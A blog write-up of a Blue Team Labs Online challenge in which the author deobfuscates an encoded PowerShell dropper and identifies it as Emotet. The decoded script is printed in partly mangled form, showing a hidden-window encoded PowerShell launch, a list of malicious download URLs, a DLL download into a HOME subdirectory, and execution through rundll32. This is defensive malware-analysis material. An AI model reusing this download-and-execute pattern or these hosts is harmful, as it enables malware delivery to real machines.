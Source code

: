 ```yaml
---
title: "Malicious PowerShell Analysis BTLO "
date: 2021-10-09T17:30:30
categories:
  - challenge
tags:
  - Blue Team Labs Online
  - Forensics
  - Incident Response
classes: wide
---
```

Continuing the skill-set diversification, a retired incident response challenge from [Blue Team Labs Online.](https://blueteamlabs.online/home/challenge/7)

>*"Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?*"

The challenge has guided questions to answer to obtain points.

---

First we unzip the challenge:

<img src="/assets/images/malpowerbtlo/mal1.png" alt="Unzipping the file.">

Then have a look at the contents!:

<img src="/assets/images/malpowerbtlo/mal2.png" alt="Looking at the contents.">

Welp.

<h4>De-obfuscation</h4>

It appears to be obfuscated powershell. According to [malware.news](https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509):

>*"PowerShell commands can be logged and script files can be captured for analysis. This gives us a chance to perform after-action forensics to see what the attacker was up to and if they were successful. Unfortunately, attackers don’t like making this easy, so they will often obfuscate and encode commands to deter and slow down analysts."*

The opening line of the `ps_script.txt` log shows:

```powershell
POwersheLL  -w hidden -ENCOD
```
It seems powershell is case-insensitive, and autocompletes flags. 

These commands show that the powershell window was hidden with `-w hidden` and then its commands were encoded into base64 with `-ENCOD` which is encode. 

We throw the output of the `.txt` file into GCHQ's CyberChef and convert from base64:

<img src="/assets/images/malpowerbtlo/mal3.png" alt="Converting from base64.">

It still looks pretty difficult to read, searching around the web suggests that we try and remove null bytes from the output like so:

<img src="/assets/images/malpowerbtlo/mal4.png" alt="Removing null bytes.">

After removing null bytes these commands are still hard to read, more research suggests the use of CyberChef's `Generic Code Beautify`. From here we try to remove as much as we can through `find/replace` like so:

<img src="/assets/images/malpowerbtlo/mal5.png" alt="Using Find/replace to remove seemingly useless items.">

The final result is shown below:

```powershell
sEtMKu[TYPe]01243-FSYsTeMioDIORYrECt;
SeT-iTEMvaRIabLEmBu[TYPe]680345271-fSteMGerManetseRVIcepOintsNAY;
$ErrorActionPreference=SilentlyContinue;
$Cvmmq4o=$Q26L[char]64$E16H;
$J16J=N_0P;
DIrVariabLEMkuVaLUecREAtedIRECTORy$HOME0Db_bh300Yf5be5g0-F[chAR]92;
$C39Y=U68S;
vARiaBLembu-VAlueoNsEcuRITYproTocol=Tls12;
$F35I=I4_B;
$Swrp6tc=A69S;
$X27H=C33O;
$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;
$K47V=R49G;
$B9fhbyv=]anw[3s//admintkcom/wp-admin/L/@]anw[3s//mikegeerinckcom/c/YYsa/@]anw[3//freelancerwebdesignerhyderabadcom/cgi-bin/S/@]anw[3//etdogcom/wp-content/nu/@]anw[3s//wwwhintupcombr/wp-content/dE/@]anw[3//wwwstmarounsnsweduau/paypal/b8G/@]anw[3//wmmcdevelopnet/content/6F2gd/REplACe]anw[3[array]sdswhttp3d[1]sPLIT$C83R$Cvmmq4o$F10Q;
$Q52M=P05K;
foreach$Bm5pw6zin$B9fhbyv
try
&New-ObjectSysTemnEtWEBcLIeNTdoWNlOaDFIlE$Bm5pw6z$Imd1yck;
$Z10L=A92Q;
If&Get-Item$Imd1ycklenGTH-ge35698
&rundll32$Imd1yckControl_RunDLLTOStRiNG;
$R65I=Z09B;
break;
$K7_H=F12U

catch

$W54I=V95O
```

Now lets try and answer the questions!

<h4>What security protocol is being used for the communication with a malicious domain? </h4>

`sEcuRITYproTocol=Tls12` means TLS 1.2.

<h4>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</h4>

This took be quite a bit to figure out, but reading the line where HOME is present made it clearer:

`$Imd1yck=$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92`

We see `replace uoh [string][char]92`. Looking at char 92 in an ascii table

<img src="/assets/images/malpowerbtlo/mal6.png" alt="92 = \.">

So we can read `$HOMEUOHDb_bh30UOHYf5be5gUOH` as `\HOME\Db_bh30\Yf5be5g\`. 

<h4>What file is being downloaded (full name)?</h4>

Looking back at our HOME line we see: `$HOMEUOHDb_bh30UOHYf5be5gUOHRePlACeUOH[StrInG][chAr]92$Swrp6tcdll;`. Since we now know that the directory the script creates is `\HOME\Db_bh30\Yf5be5g\` anything after `[StrInG][chAr]92` should be our downloaded file. 

Thus `$Swrp6tcdll` is the downloaded file, dll seems to be the file extension. We can try `Swrp6tc.dll`. 

However this is not correct. If we search for other references to `Swrp6tc` in the logs we find `$Swrp6tc=A69S;`, `$Swrp6tc` is a variable! This should have been obvious from the `$` sign in front of it. 

We instead try `A69S.dll` which is correct!.

<h4>What is used to execute the downloaded file?</h4>

Now that we know it is a dll file, we see `&rundll32` and see if `rundll32` is the exe used to execute the file. 

It is correct!

<h4>What is the domain name of the URI ending in ‘/6F2gd/’</h4>

Searching through our logs we see the line `wmmcdevelopnet/content/6F2gd`. The URI doesn't make much sense without the `.` which we removed earlier. Heading back to CyberChef to add them back in we see: `wm.mcdevelop.net/content/6F2gd` meaning the answer is `wm.mcdevelop.net`.

<h4>Based on the analysis of the obfuscated code, what is the name of the malware?</h4>

Googling around for the `A69S.dll` we come across MalwarebBazaar's [database](https://bazaar.abuse.ch/sample/23be1cb22c94fe77cea5f8e7fef6710eeef5a23e7e7eb9b9dd53f56d1b954269/) which suggests that the malware name is `Emotet (aka Heodo)`. We try Emotet and are rewarded with challenge complete!

<img src="/assets/images/malpowerbtlo/mal7.png" alt="https://blueteamlabs.online/achievement/share/challenge/14446/7">